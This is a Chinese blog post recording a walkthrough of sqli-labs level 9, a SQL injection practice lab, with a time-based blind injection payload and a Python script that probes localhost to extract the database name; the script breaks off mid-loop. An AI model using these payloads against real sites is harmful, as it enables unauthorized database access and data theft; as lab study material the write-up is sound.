 ```yaml
---
title: sqli-labs的学习记录二（9-22）
index_img: /img/2018-07-20/index.jpg
date: 2018-08-3 10:45:53
tags: 
- 注入
- web
- 盲注
---
```


sqli-labs上的sql注入学习第二部分，上半部分（1-8）→[sqli-labs的学习记录一](https://lzy-wi.github.io/2018/07/20/sqli-labs1/)

##### 第九关
&emsp;&emsp;布尔盲注是判断对错，第九关是基于时间的盲注，根据返回时间来判断。比如`(ascii(substr(database(),1,1))>=97`,我们可以让这个判断语句正确延迟5秒返回，如果错误就正常返回。这里用到一个if函数，if（a,b,c）如果a正确就返回b，否则返回c。
所以最终payload为
```
id=1' and if(ascii(substr(database(),1,1))>=97,sleep(5),sleep(0)) -- +
```
然后跟布尔盲注的方法一样一个一个的判断，时间上会比布尔盲注要多，要节省时间可以降低到2秒或者3秒,脚本基本上是抄第八关的，在判断方式上做了变动，思路不变。
```python
import requests
import time

txt1 = "http://localhost/sqli-labs/Less-9/?id=1' and if(ascii(substr(database(),"
txt2 = ",1))>="
txt3 = ",1))="
txt4 = ",sleep(2),sleep(0)) -- +"
num11 = 97
num12 = 65
num13 = 48
code = ''
num1 = 0
num2 = 0
num3 = 0
for i in range(1,9):
	url = txt1+str(i)+txt2+str(num11)+txt4
	time1 = time.time()
	req = requests.get(url = url)
	time2 = time.time()
	if(time2 - time1 >=2):
		num1 = 1
		
	url = txt1+str(i)+txt2+str(num12)+txt4
	time1 = time.time()
	req = requests.get(url = url)
	time2 = time.time()
	if(time2 - time1 >=2):
		num2 = 1

	url = txt1+str(i)+txt2+str(num13)+txt4
	time1 = time.time()
	req = requests.get(url = url)
	time2 = time.time()
	if(time2 - time1 >=2):
		num3 = 1


	if(num1 == 1):
		num = 97
		num += 13
		url = txt1+str(i)+txt2+str(num)+txt4
		time1 = time.time()
```